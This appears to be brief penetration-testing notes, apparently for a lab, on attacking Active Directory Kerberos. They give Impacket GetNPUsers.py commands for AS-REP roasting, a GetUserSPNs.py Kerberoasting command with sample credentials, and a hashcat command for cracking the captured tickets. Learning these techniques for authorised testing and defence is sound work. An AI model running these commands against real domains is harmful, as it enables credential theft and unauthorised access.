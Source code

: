 https://www.youtube.com/watch?v=pZSyGRjHNO4

This script check if the user you specify has the `Do not require Kerberos preauthentication` property set. 

(This means these accounts are vulnerable to ASREP Roasting)

---

You will need to provide a username. 
`python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/username`


If you want to provide a list of names 
```
python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/  -usersfile users.txt
```

---

It will spit out TGT (ticket granting ticket) for that user if vulnerable. 

The TGT can actually be cracked for a password using john or hashcat

---

### find kerberoastable accounts
```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.248.15 -request
```


crack with hashcat

```
hashcat -m 13100 -a 0 crackme.txt wordlist.txt 
```